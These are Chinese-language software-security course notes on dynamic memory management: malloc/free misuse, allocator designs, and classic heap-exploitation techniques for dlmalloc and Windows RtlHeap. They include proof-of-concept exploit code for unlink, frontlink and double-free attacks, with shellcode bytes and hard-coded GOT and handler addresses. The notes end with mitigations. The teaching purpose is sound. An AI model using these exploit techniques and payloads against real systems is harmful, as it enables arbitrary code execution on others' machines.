





---
tags:
  - 软件安全
comments: true
---
# 动态内存管理
## 动态内存管理函数

=== "C标准"

	=== "`malloc`"
		* `malloc(size_t size)`：分配给定大小内存，返回一个指向该内存的指针。
			- 此内存没有被初始化！

	=== "`realloc`"
		* `realloc(void *p, size_t size)`：把p所指向的内存块大小调整为size个字节
			- size=0 等价于`free(p)`
			- p是空指针 等价于`malloc(size)`
			- 新分配的内存未做初始化

	=== "`calloc`"
		* `calloc(size_t nmemb, size_t size)`：为数组分配内存，该数组共有`nmemb`个元素，每个元素的大小为`size`个字节
			- 所分配的内存的内容全部设为0

	=== "`free`"
		* `free(void *p)`释放
			- 重复调用`free(p)`会导致未定义行为
			- 如果p是空指针，则不执行任何操作

=== "C++标准"
	`new` 和 `delete`

## 内存管理器
* 分配算法：<!--link to os/memory/分区分配算法-->
	1. 连续匹配（匹配的第一个）
	2. [最先匹配](../408-helper/operating-system/memory.md#_5)（从内存开始位置寻找第一个空闲区域）
	3. 最佳匹配
		- 有m个字节的区域被选中，其中m是（或其中一个）可用的最小的等于或大于n个字节的连续存储的块
	4. 最优匹配（选择遇到的第一个比样本更合适的块——最优结婚策略[^1]）
	5. 最差匹配（匹配最大的空闲块）
	6. 伙伴系统
		* 只以2的幂数次大小为单位分配空间，方便合并和拆分
* 内存管理器都做些什么
	- 返回已释放的块到池中
	- 合并临近空闲块为更大的块
	- 有时使用压缩的预留块
	- 把所有块移到一起
	- 既管理已分配的内存，也管理已释放的内存
* 关于内存管理器
	- 作为客户进程的一部分运行
	- 使用Knuth描述的动态存储分配算法的某个变种
	- 分配给客户进程的内存，以及供内部使用而分配的内存，全部位于客户进程的可寻址内存空间内

### 常见内存管理错误
1. 初始化错误
    * 不要假设`malloc()`把分配的内存的所有位初始化为零

    ```c linenums="1" hl_lines="8"
    /* return y = Ax */
    int* matvec(int **A, int *x, int n) {
      int *y = malloc(n * sizeof(int));
      int i, j;

      for (i = 0; i < n; i++)
    	for (j = 0; j < n; j++)
    		y[i] += A[i][j] * x[j];  // (1)
      return y;
    }
    ```

    1. `y[i]`是`0`吗？

    !!! success "解决方案"
        使用 `memset()`或`calloc()`替代`malloc()`

2. 未检查返回值
	* 内存分配失败：`malloc`返回空指针，`new`抛出`bad_alloc`异常

	=== "malloc检查返回值"
		```c linenums="1" hl_lines="3-7"
		int *i_ptr;
		i_ptr = (int *)malloc(sizeof(int)*nelements_wanted);
		if (i_ptr != NULL) {
			i_ptr[i] = i;
		}else{
		/* Couldn't get the memory - recover */
		}
		```

	=== "new异常处理"

        === "try-catch"
    		```c++ linenums="1" hl_lines="1 7"
    		try {
    			int *pn = new int;
    			int *pi = new int(5);
    			double *pd = new double(55.9);
    			int *buf = new int[10];
    		}
    		catch (bad_alloc) {
    			 // handle failure from new
    		}
    		```

        === "`std:nothrow`"
            * 在内存不足时，`new (std::nothrow)`并不抛出异常，而是将指针置`NULL`

            ```c++ linenums="1" hl_lines="1"
            int *pn = new(std::nothrow) int;
            if (pn) {...}
            else  {...}
            ```

3. 引用已释放内存

    * 不可能导致运行时错误
        - 因为内存由内存管理器所有
    * 已释放的内存在读操作之前可被分配
        - 读操作读取的数值不正确
        - 写操作损坏其他变量
    * 已释放内存能被内存管理器使用
        - 写操作能损坏内存管理器元数据
        - 很难诊断运行时错误
        - 漏洞利用的基础

    ```c
	for (p = head; p != NULL; p = p->next)
		free(p);    // (1)
	for (p = head; p != NULL; p = q) {
		q = p->next;
		free(p);   // (2)
	}
	```

    1. 错误的用法
    2. 没问题——使用了临时变量

4. 多次释放内存
	* 复制粘贴时忘记修改相应的`free`代码
	```c hl_lines="6"
	x = malloc(n * sizeof(int));
	/* manipulate x */
	free(x);
	y = malloc(n * sizeof(int));
	/* manipulate y */
	free(x);    //oops...
	```
	* 数据结构包含指向同一项的链接
        <figure markdown>
		
        </figure>
		- 类似于`free(a->stru); free(b->stru);`
	* 作为错误处理的结果，内存块被释放，但在正常处理过程中再次被释放
5. 不正确配对内存管理函数
	* 虽然有时也可以工作，但是降低了可移植性
	* 永远使用：`new` ~ `delete`  `malloc` ~ `free`
6. 分配函数的不当使用
	* `malloc(0)`：可能返回空指针或伪地址
	* `alloca()`
		- 栈上分配内存，返回时自动释放
7. 未能区分标量和数组（C++）
	* `new`，`delete` 标量
	* `new[]`，`delete[]` 数组

### dlmalloc

<figure markdown>

<figcaption>dlmalloc是大部分Linux版本默认内存分配器</figcaption>
</figure>

* chunk的数据结构

    ```c
	struct malloc_chunk {

	  INTERNAL_SIZE_T      mchunk_prev_size;
	  INTERNAL_SIZE_T      mchunk_size;

	  struct malloc_chunk* fd;
	  struct malloc_chunk* bk;

	  struct malloc_chunk* fd_nextsize; /* (1) */
	  struct malloc_chunk* bk_nextsize;

	};
	```

    1. double links -- used only if free.

* 空闲块
	* 以双链表形式组织起来
	* 包含指向下一块的前向指针和指向上一块的后向指针
	* 最后4字节存有该块的大小
* 已分配块和空闲块都使用一个PREV_INUSE位区分
	* 块大小总是偶数，PREV_INUSE位被存储于块大小的低位中
* 空闲块被组织成筐
    
	* 由头索引
	* 筐中的块大约同样大小
	* 还有一个包含最近释放的块的筐作为缓存
* `free()`时
	* 被释放的上一块是空的：合并
	* 被释放的下一块是空的：从双链表中解开，并合并
### unlink技术 → 解链攻击
* unlink宏
	```c
	#define unlink(P, BK, FD) {	\
		FD = P->fd;	\
		BK = P->bk;	\
		FD->bk = BK;	\
		BK->fd = FD;	\
	}
	```

    <figure markdown>
    
    <figcaption>unlink示意</figcaption>
    </figure>

* 本质：任意写（欺骗unlink宏向任意位置写入4字节数据）

    ```c linenums="1" hl_lines="5-7"
	#include <stdlib.h>
	#include <string.h>
	int main(int argc, char *argv[]) {
		char *first, *second, *third;
		first = malloc(666);
		second = malloc(12);
		third = malloc(12);
		strcpy(first, argv[1]); // (1)
		free(first);            // (2)
		free(second);           // (3)
								// (4)
		free(third);
		return 0;
	}
	```

    1. 程序接受单个字符串参数并将其复制到`first`中，无界`strcpy()`容易造成缓冲区溢出
    2. 程序调用`free()`释放第一块内存，参数会覆写第二块内存中表示上一块内存大小的域、块大小值以及前向指针和后向指针，从而也就修改了`free()`操作的行为
        - 第二块内存的大小域的值被修改为-4 ，因此，当`free()`需要确定第三块内存的位置时，也就是说，将第二块内存的起始位置加上其大小时，会导致其起始位置减4。Doug Lea的malloc此时会错误地认为下一连续内存块自第二块内存前面4字节起。
        - 这个恶意参数也会使dlmalloc所找到的`PREV_INUSE`标志位为空， 从而dlmalloc误以为第二块内存是未分配的，导致`free()`调用`unlink()`宏来合并这两块内存
    3. 如果第二块内存处于未分配状态（即空闲），`free()`操作将会试图将其与第一块合并
    4. 为了判断第二块内存是否处于空闲状态，`free()`会检查第3块的`PREV_INUSE`标志位

* payload
    - 第一块：`4bytes fd + 4bytes bk + shellcode + fill = 680 bytes`
    - 第二块：`4bytes prev size(even) + 4bytes size(-4) + 4bytes fd(fp-12) + 4bytes bk(shellcode_addr) + '\0'`

        !!! note ""
            欺骗系统，让系统认为第二块是空闲的，触发将第二块解链的操作）

* `free()`→ 调用shellcode
	* 难点：确定第一块内存的大小，从而精确计算出需要覆写的第二块内存的地址
	* 攻击者可以从dlmalloc中复制`request2size(req, nb)`宏的代码到其利用代码中，然后使用这个宏计算出块的大小

### frontlink技术 → 入链攻击
* 攻击者指定一个内存块的地址而不是shellcode的地址，攻击者在这个内存块的起始4个字节中放入可执行代码
* frontlink代码片段
	```c linenums="1"
	BK = bin;
	FD = BK->fd;
	if (FD != BK) {
		   while (FD != BK && S < chunksize(FD)) {
			   FD = FD->fd;
		 }
		 BK = FD->bk;
	}
	P->bk = BK;
	P->fd = FD;
	FD->bk = BK->fd = P
	```
* 本质：任意写
	* 向一个内存块地址起始4个字节中放入可执行代码

        ```c linenums="1"
		#include <stdlib.h>
		#include <string.h>
		#include <stdio.h>
		int main(int argc, char *argv[]){
			if (argc !=3){
				printf("Usage: prog_name arg1 \n");
				exit(-1);
			}
			char *first, *second, *third;
			char *fourth, *fifth, *sixth;
			first = malloc(strlen(argv[2]) + 1);
			second = malloc(1500);
			third = malloc(12);
			fourth = malloc(666);
			fifth = malloc(1508);
			sixth = malloc(12);
			strcpy(first, argv[2]);
			free(fifth);	                //(1)
			strcpy(fourth, argv[1]);	    //(2)
			free(second);	                //(3)
			return(0);                      //(4)
			                                //(5)
		}
		```

        1. 当`fifth`内存块被释放时，它被放入一个筐中
        2. 其直接前驱内存块`fourth`被精心设计的数据所填满（`argv[1]`），因此这里就发生了溢出，并且`fifth`的前向指针指向了一个假的内存块，这个假的内存块的后向指针的位置包含有一个函数指针的地址（地址减8）。一个合适的函数指针是存储于程序`.dtors`区中的第一个析构函数的地址，攻击者可以通过检查可执行映像而获得这个地址。
        3. 当`second`块被释放时，程序使`frontlink()`代码段将其插入到与`fifth`块相同的筐中。`second`比`fifth`内存块小，frontlink代码中的`while`循环执行了
        4. 对`return(0)`的调用，本来应该导致程序的析构函数被调用，而现在实际调用的却是shellcode
        5. `fifth`块的前向指针被存储到`FD`中，假内存块的后向指针存储到变量`BK`中，现在`BK`包含有函数指针的地址（指针值减8）函数指针被`second`块的地址所覆写

* payload：一段shellcode，该shellcode的最后4个字节就是跳转到shellcode其他部分的跳转指令，并且这4个字节是first块的最后4个字节
	- 被攻击的内存块必须是8的整数倍减去4个字节长

### 双重释放
* 攻击条件
    - [x] 被释放内存块在内存中独立存在
    - [x] 该内存所被放入的筐必须为空
* bin structure

    <figure markdown>
    { width="300" loading="lazy" }
    { width="300" loading="lazy" }
    <figcaption>一般筐结构</figcaption>
    </figure>

	* 一个空的筐和一个已分配的内存块
		- 空的筐仅仅包含头
		- 筐和内存块之间没有任何联系
	* 块被释放后，它被放入筐中
		- 在调用frontlink后，筐的前向和后向指针指向已释放的块
	* 对内存块的第二次释放毁坏了筐结构
		- 利用困难：已释放的内存没有立即放入筐中，而是被缓存；双重释放块可能和其他块合并

            <figure markdown>
			{ width="300" loading="lazy" }
            <figcaption>损坏的筐结构</figcaption>
            </figure>

			```c linenums="1" hl_lines="13-16 19 21 24"
			static char *GOT_LOCATION = (char *)0x0804c98c;
			static char shellcode[] =
			"\xeb\x0cjump12chars_" /* jump */
			"\x90\x90\x90\x90\x90\x90\x90\x90"

			int main(void){
				int size = sizeof(shellcode);
				void *shellcode_location;
				void *first, *second, *third, *fourth;
				void *fifth, *sixth, *seventh;
				shellcode_location = (void *)malloc(size);
				strcpy(shellcode_location, shellcode);
				first = (void *)malloc(256);                //(1)
				second = (void *)malloc(256);
				third = (void *)malloc(256);
				fourth = (void *)malloc(256);               //(2)
				free(first);                                //(3)
				free(third);                                //(4)
				fifth = (void *)malloc(128);                //(5)
				free(first);                                //(6)
				sixth = (void *)malloc(256);                //(7)
				*((void **)(sixth+0))=(void *)(GOT_LOCATION-12);  //(8)
				*((void **)(sixth+4))=(void *)shellcode_location;
				seventh = (void *)malloc(256);              //(9)
				strcpy(fifth, "something");                 //(10)
															//(11)
				return 0;
			}
			```

            1. 利用方式的目标是分配的`first`块
            2. 对`second`和`fourth`块的分配，可以阻止`third`块与`first`块合并
            3. 当`first`块在初次释放时，会被放入缓存筐而不是普通的筐
            4. 释放`third`块将`first`块移到普通筐
            5. 分配`fifth`块会造成内存从`third`块处分开，作为一个副作用，还会导致`first`块被转移到一个普通筐中
            6. 内存已经配置成功，因此对`first`的第二次释放构成双重释放漏洞
            7. 分配`sixth`块时，`malloc()`返回的指针与`first`所指向的内存块相同
            8. `strcpy()`函数的GOT地址（减去12）以及shellcode位置被复制到这块内存
            9. 相同的内存块被再一次分配给`seventh`块
            10. 当内存块被分配后，`unlink`宏将shellcode的地址复制到全局偏移表中`strcpy`的地址处
            11. 调用`strcpy()`时，程序的控制权被转移到shellcode中。shellcode跳过最初的`12`个字节，因为这部分内存的一些已经被`unlink`宏所覆写。

        !!! warning ""
			对于以上代码，假如注释了第二次`free(first)`操作，不会有双重释放问题，但是仍然导致调用`strcpy`后进入shellcode的控制内，因为写入了`first`，对`malloc()`的调用以shellcode的地址取代了`strcpy()`的地址。

## RTL（Run Time Library）堆
### Windows内存管理
- 虚拟内存API
	* 32位地址，4KB页
- 堆内存API
	* 允许用户建立多个动态堆，每一个进程都有一个默认堆
- 局部内存API和全局内存API
- CRT内存函数
- 内存映射文件API
	* 内存映射文件允许一个应用程序将其虚拟地址空间直接映射到磁盘上的一个文件
### RTL 数据结构
- 进程环境块
	* PEB维护有每一个进程的全局变量
	* PEB被每一个进程的线程环境块（thread environment block, TEB）所引用
	* TEB 则被fs寄存器所引用
	* 版本早于Windows XP SP2的操作系统中，PEB在`0x7FFDF000`上
	* PEB给出堆数据结构的信息:
		- [x] 堆的最大数量
		- [x] 堆的实际数量
		- [x] 默认堆的位置
		- [x] 一个指向包含所有堆位置的数组的指针
- 空闲链表、look-aside链表
	* 空闲列表
		- 是有128个双向链表的数组，位于堆起始（也就是调用`HeapCreate()`返回的地址）偏移`0x178`处
		- `Freelist[]`是一个`LIST_ENTRY`结构（定义于`winnt.h`中）的数组，由前向链接(flink)和后向(blink)链接组成
		- 页中未作为第一个内存块的一部分而分配出去的内存，以及那些没有被用作堆控制结构的内存，就被加入空闲列表，对于较小的分配（指的是小于1472字节），大于1024的被加入到`Freelist[0]`中，假设空间足够的话，后续的分配都从这个空闲块中进行
	* 后备缓存（look-aside）列表
		- 加速对小块内存的分配操作（<1016字节）
		- 先于空闲链表被检查
	* 边界标志
        <figure markdown>
		
        <figcaption>块边界结构</figcaption>
        </figure>

        - 自身大小
		- 前一块大小
		- busy标志位
		- 当块被释放时：
			1. 边界标志仍然存在
			2. 空闲内存包含下一块和上一块地址
			3. busy标志位被清空

#### 基于堆的缓冲区溢出攻击
* 改写双链表结构中的前向和后向指针

	```c linenums="1" hl_lines="8-12 14"
	unsigned char shellcode[] = "\x90\x90\x90\x90";
	unsigned char malArg[] = "0123456789012345"
				"\x05\x00\x03\x00\x00\x00\x08\x00"
				"\xb8\xf5\x12\x00\x40\x90\x40\x00";
	void mem() {
		HANDLE hp;
		HLOCAL h1 = 0, h2 = 0, h3 = 0, h4 = 0;
	    hp = HeapCreate(0, 0x1000, 0x10000);
	    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
		h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 128);
	    h3 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
	    HeapFree(hp,0,h2); // (1)
	    memcpy(h1, malArg, 32); 	// (2)
	    h4 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 128); // (3)
		// (4)!
		return;
	}
	int _tmain(int argc, _TCHAR* argv[]) {
		mem();
		return 0;    // (5)
	}
	```

    1. 释放`h2`导致在已分配内存中打开了一个缺口
    2. 缓冲区溢出
    3. 引发返回地址被shellcode地址覆写
    4. 对`HeapAlloc()`的调用会导致shellcode的起始4个字节被返回地址`\xb8\xf5\x12\x00`所覆盖，地址需要可被执行！
    5. 控制转移到shellcode

* 通过覆写异常处理器地址获取控制，引发异常

    ```c title="vuln.c"
	int mem(char *buf) {
		HLOCAL h1 = 0, h2 = 0;
		HANDLE hp;
		hp = HeapCreate(0, 0x1000, 0x10000);	// (1)
		if (!hp) return -1;
		h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 260); // (2)
		strcpy((char *)h1, buf); // (3)
		// (4)!
		h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 260);
		printf("we never get here");
		return 0;
	}
	int main(int argc, char *argv[]) {
		HMODULE l;
		l = LoadLibrary("wmvcore.dll");
		buildMalArg();
		mem(buffer);
		return 0;
	}
	/* (5)! */
	char buffer[1000]="";
	void buildMalArg() {
		int addr = 0, i = 0;
		unsigned int systemAddr = 0;
		char tmp[8]="";
		systemAddr = GetAddress("msvcrt.dll","system");
		for (i = 0; i < 66; i++) strcat(buffer, "DDDD");
		strcat(buffer, "\xeb\x14");
		strcat(buffer, "\x44\x44\x44\x44\x44\x44"); // (6)
		strcat(buffer, "\x73\x68\x68\x08"); // (7)
		strcat(buffer, "\x4c\x04\x5d\x7c");
		for (i = 0; i < 21; i++) strcat(buffer,"\x90");
		strcat(buffer, "\x33\xC0\x50\x68\x63\x61\x6C\x63\x54\x5B\x50\x53\xB9"); // (8)
		fixupaddresses(tmp, systemAddr);
		strcat(buffer,tmp);
		strcat(buffer,"\xFF\xD1\x90\x90");
		return;
	}
	```

    1. 创建堆
    2. 分配了一个单独的内存块堆，包括：段头、为`h1`所分配的内存、段尾
    3. overflowed here
    4. 覆写段尾，包括 `LIST_Entry` 结构，指针很可能在下一个对RtlHeap的调用时被引用——这会触发一个异常
    5. 可被用于构造恶意参数从而对`mem()`函数中的漏洞发动攻击的代码，实现漏洞利用的函数例子之一
    6. 改写了尾随空闲块的前向和后向指针
    7. 前向指针被控制权将要转移到的地址所取代
    8. 后向指针则被将要被覆写的内存地址所取代

	```asm title="将要利用的异常管理器的汇编语句"
	; (1)
	mov  ecx, dword ptr [esp+4]
	mov  eax, dword ptr ds:[7C5D044Ch]
	mov  dword ptr ds:[7C5D044Ch], ecx
	ret  4
	; (2)
	```

    1. `SetUnhandledExceptionFilter(myTopLevelFilter)`
    2. 前向指针 addr ← shellcode addr 攻击者可以采用跳板

#### 可能存在的漏洞
- 写入已释放内存

    ```c linenums="1" hl_lines="12-14"
	typedef struct _unalloc {
	    PVOID fp;
	    PVOID bp;
	} unalloc, *Punalloc;
	char shellcode[] = "\x90\x90\x90\xb0\x06\x90\x90";
	int _tmain(int argc, _TCHAR* argv[]) {
	    Punalloc h1;
	    HLOCAL h2 = 0;
	    HANDLE hp;
	    hp = HeapCreate(0, 0x1000, 0x10000);
	    h1 = (Punalloc)HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);     //(1)
	    HeapFree(hp, 0, h1);                                    //(2)
	    h1->fp = (PVOID)(0x042B17C - 4);                        //(3)
	    h1->bp = shellcode;
 	    h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);               //(4)
	    HeapFree(hp, 0, h2);                                    //(5)
        return 0;
	}
	```

    1. 从该堆中分配了一个`32`字节的内存块，用`h1`表示
    2. “错误地”释放
    3. 用户数据则被错误地写入已释放内存块中
    4. 对`HeapAlloc()`的调用使得`HeapFree()`的地址被shellcode的地址所覆盖
    5. 控制权转移到shellcode

- 双重释放

    ```c linenums="1" hl_lines="16-17" title="基于Windows 2000漏洞"
	int main(int argc, char *argv[]) {
		HANDLE hp;
		HLOCAL h1, h2, h3, h4, h5, h6, h7, h8, h9;
		hp = HeapCreate(0,0x1000,0x10000);
		h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
		memset(h1, 'a', 16);
		h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
		memset(h2, 'b', 16);
		h3 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);
		memset(h3, 'c', 32);
		h4 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
		memset(h4, 'd', 16);
		h5 = HeapAlloc(hp, HEAP_ZERO_MEMORY,8)
		memset(h5, 'e', 8);
		HeapFree(hp, 0, h2);
		HeapFree(hp, 0, h3);
		HeapFree(hp, 0, h3);
		h6 = HeapAlloc(hp, 0, 64);
		memset(h6, 'f', 64);
		strcpy((char *)h4, buffer);
		h7 = HeapAlloc(hp, 0, 16);
		printf("Never gets here.\n");
	}
	```

## 缓解漏洞：空指针
- 完成对`free()`的调用后，将指针置为NULL
- 可以解决写已释放内存，双重释放漏洞问题
	* 但是两个异名指针指向同一结构，避免不了问题
- 一致的内存管理约定
	* 使用同样的模式分配和释放内存
	* 在同一个模块中，在同一个抽象层次中，分配和释放内存
	* 让分配和释放配对
- 堆完整性检测
	* canary：“随机值”，当一个内存块被归还时，canary的值会与该内存块被分配时所计算的校验和作比较
	* PhkMalloc：检测所有不是由`malloc()`或`realloc()`返回的值
		- 所以可以检测所有的双重释放错误，一旦检测到错误，会调用`abort()`（启用A或abort选项）
		- 增加J(Junk:`0xd0`)、Z(Zero)选项，会给分配的区域内填充数据
- 随机化
	* `malloc()`返回地址一定程度上可以预测
	* 使对基于堆的漏洞利用变得更加困难
- 哨位页
	* 是未映射的，被放置到已分配内存（一个页或更大）之间的空间
	* 当攻击者在利用缓冲区溢出哨位页时，程序会引发段故障
	* 开销大
- 运行时分析
	* 工具：Purify、Dmalloc库、Electric Fence、GNU checker、Valgrind、Insure++、Application Verifier(MS)
- 实例
	* Windows XP SP2：canary
		- 每一个内存块的末尾增加了一个8位的canary
		- 空闲链表管理代码中加入更多的检查，其包括三个双链表中未分配的内存块
			* 防止flink和blink被恶意修改
	* CVS
		* off-by-one缓冲区溢出漏洞
			- 当CVS处理一个入口行时，会为该入口行分配了一个多余的内存字节，用来表示其是已修改的还是未修改的，CVS并不会检查是否已经为这个标志分配了内存
			- 通过多次调用一个有漏洞的函数并且向入口行内插入特殊的字符，远程攻击者就能够覆写多个内存块
		* 服务器双重释放漏洞
			- 该漏洞允许远程攻击者执行任意的代码或命令，或者导致一个有漏洞的系统发生拒绝服务
	* 微软数据访问组件：缓冲区溢出漏洞
		- 如果RDS被启用了，攻击者就可以在IIS服务器上执行任意代码
		- 建立一个恶意的Web站点，并且发布一个页面，该页面可以通过一个客户端程序（如IE），来利用MDAC RDS存根中的缓冲区溢出
		- 运行IE的系统容易遭受此攻击
	* Kerberos 5
		- 在krb5-1.3.2以前的发行版的`krb5_rd_cred()`实现中，包含有显式释放“由ASN.1 解码器函数`decode_krb5_enc_cred_part()`所返回的”缓冲区的代码
			* 发生错误时，解码器自身也会释放该缓冲区 → double free


[^1]: 首先，约会n个女孩；然后，约会更多的女孩，但是娶比之前n个女孩都好的那个；最后停止约会；如果你能一共约会2n个女孩的话，那么只有很小的概率，你会和最差的女孩结婚
